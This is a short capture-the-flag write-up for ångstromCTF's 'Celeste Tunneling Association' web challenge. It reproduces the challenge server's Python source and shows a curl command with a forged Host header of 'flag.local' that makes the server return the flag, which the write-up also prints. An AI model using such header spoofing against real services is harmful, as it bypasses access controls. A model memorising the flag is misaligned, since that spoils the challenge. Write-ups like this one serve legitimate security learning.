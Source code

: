 ```yaml
---
author: "Asad Ullah"
title: "Celeste Tunneling Association - ångstromCTF"
description: 
summary: Write-up on web challenge Celeste Tunneling Association.
date: 2023-04-27T00:04:24+05:00
Section: write-ups
categories:
- writeup
- ctftime.org
tags:
- angstormctf
- web
- header
- curl

draft: True

---
```


{{< 
ctftime 
name="Celeste Tunneling Association" 
difficulty="Easy"  
points="40"
category="Web"
>}}

&nbsp;

&nbsp;

## Description

[Welcome to the tunnels!!](https://pioneer.tailec718.ts.net/) Have fun!

[Here's the source](https://files.actf.co/5b5169bad21a7256564e8d49103f2b97bb2d2db7cdf3446fe6c9e11f9500922e/server.py)

## Approach

We are provided with a website along with its source code.

&nbsp;

**Here is the Source Code:**

```python
# run via `uvicorn app:app --port 6000`
import os

SECRET_SITE = b"flag.local"
FLAG = os.environ['FLAG']

async def app(scope, receive, send):
    assert scope['type'] == 'http'

    headers = scope['headers']

    await send({
        'type': 'http.response.start',
        'status': 200,
        'headers': [
            [b'content-type', b'text/plain'],
        ],
    })

    # IDK malformed requests or something
    num_hosts = 0
    for name, value in headers:
        if name == b"host":
            num_hosts += 1

    if num_hosts == 1:
        for name, value in headers:
            if name == b"host" and value == SECRET_SITE:
                await send({
                    'type': 'http.response.body',
                    'body': FLAG.encode(),
                })
                return

    await send({
        'type': 'http.response.body',
        'body': b'Welcome to the _tunnel_. Watch your step!!',
    })
```

&nbsp;

By examining the source code, we can observe that the flag is stored as an environment variable and can be accessed if the condition **`if name == b"host" and value == SECRET_SITE:`** is satisfied.

To trigger the server to reveal the flag, we need to provide a single header with the name **`host`** and the value **`flag.local`**. Once the server receives this header, it will return the flag in response.

&nbsp;

```bash
┌──(kali㉿iasad)-[~/CTFs/angstorm]
└─$ curl -H "Host: flag.local" https://pioneer.tailec718.ts.net/    
 
actf{reaching_the_core__chapter_8}
```

&nbsp;

---

**Flag: `actf{reaching_the_core__chapter_8}`**

---

&nbsp;

&nbsp;
